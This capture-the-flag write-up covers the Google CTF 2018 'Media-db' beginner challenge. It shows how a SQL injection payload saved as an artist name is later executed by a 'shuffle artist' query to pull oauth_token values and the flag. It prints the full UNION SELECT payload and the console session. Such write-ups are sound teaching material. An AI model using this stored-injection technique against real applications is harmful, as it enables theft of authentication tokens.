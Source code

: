 At first, the application seems safe. It correctly removes quotes from the
insert parameters and apostrophes from both select queries.  
I also found out that SQLite 3 doesn't support backslash escaping, so we can't
solve it this way. However the application allows us to shuffle artist.  
It chooses random artist from database and then selects all his songs. And
that's what we need. We can without any problems insert artist with
apostrophes in his name to database.  
This name will be later used in SELECT query which uses apostrophes to mark
string. If we set artist name to `'and 1=2 union select 1,oauth_token from
oauth_tokens;--`, this should execute union select query and return
oauth_token instead of song name.  
```  
=== Media DB ===  
1) add song  
2) play artist  
3) play song  
4) shuffle artist  
5) exit  
> 1  
artist name?  
'and'1'='2' union select 1,oauth_token from oauth_tokens;--  
song name?  
any  
1) add song  
2) play artist  
3) play song  
4) shuffle artist  
5) exit  
> 4  
choosing songs from random artist: 'and'1'='2' union select 1,oauth_token from
oauth_tokens;--

== new playlist ==  
1: "CTF{fridge_cast_oauth_token_cahn4Quo}  
" by "1"

1) add song  
2) play artist  
3) play song  
4) shuffle artist  
5) exit  
> 5  
bye  
```

Flag: `CTF{fridge_cast_oauth_token_cahn4Quo}`

Original writeup (https://github.com/BOAKGP/CTF-
Writeups/tree/master/Google%20CTF%202018%20Quals%20Beginners%20Quest/Media-
db).